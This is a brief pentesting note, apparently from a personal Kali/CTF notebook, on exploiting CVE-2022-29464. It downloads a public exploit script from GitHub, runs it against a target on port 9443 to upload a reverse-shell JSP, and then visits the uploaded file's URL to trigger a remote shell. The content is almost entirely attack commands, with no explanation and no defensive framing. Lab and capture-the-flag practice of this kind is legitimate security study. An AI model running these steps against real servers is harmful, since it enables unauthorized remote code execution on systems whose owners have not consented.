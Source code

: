 ```yaml
---
category: Uncategorized
tags: []
---
```

```bash - kali
wget https://raw.githubusercontent.com/hakivvi/CVE-2022-29464/main/exploit.py
```

![[0._Reverse shells (WEB)#jsp]]

```bash - kali
python3 exploit.py https://$TARGET:9443 reverse.jsp
```

Next, we just visit:

`https://$TARGET:9443/authenticationendpoint/reverse.jsp`














